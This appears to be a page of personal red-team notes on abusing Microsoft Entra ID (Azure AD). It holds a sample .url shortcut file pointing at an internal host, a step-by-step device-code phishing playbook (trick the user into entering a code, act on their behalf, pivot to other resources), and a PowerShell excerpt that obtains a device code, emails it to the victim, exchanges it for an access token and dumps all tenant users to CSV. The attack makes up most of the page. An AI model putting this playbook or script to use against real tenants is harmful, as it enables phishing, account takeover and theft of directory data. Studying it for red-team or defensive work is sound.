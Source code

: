 
[{000214A0-0000-0000-C000-000000000046}] Prop3=19,2 [InternetShortcut] IDList= URL=http://cli01.contoso.com/ IconIndex=234 HotKey=0 IconFile=C:\Windows\System32\SHELL32.DLL

click.URL


![[Pasted image 20231010211230.png]]

Abusing the device code flow MO

Try to access data using code flow and get a code 2. Trick the user into entering the code in the devicelogon page (phishing) 3. Connect on behalf of the user 4. Pivot to other backend resources and access other resources

### PowerShell tool to make Code Flow
AAD Internals module (excerpt)

```powershell
$body=@{ "client_id" = "d3590ed6-52b3-4102-aeff-aad2292ab01c" "resource" = "https://graph.windows.net" } 
$authResponse = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0" -Body $body $user_code = $authResponse.user_code Send-MailMessage ... 
$response = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/Common/oauth2/token?api-version=1.0 " -Body $body # Dump the tenant users to csv Get-AADIntUsers -AccessToken $response.access_token | Export-Csv users.csv
```

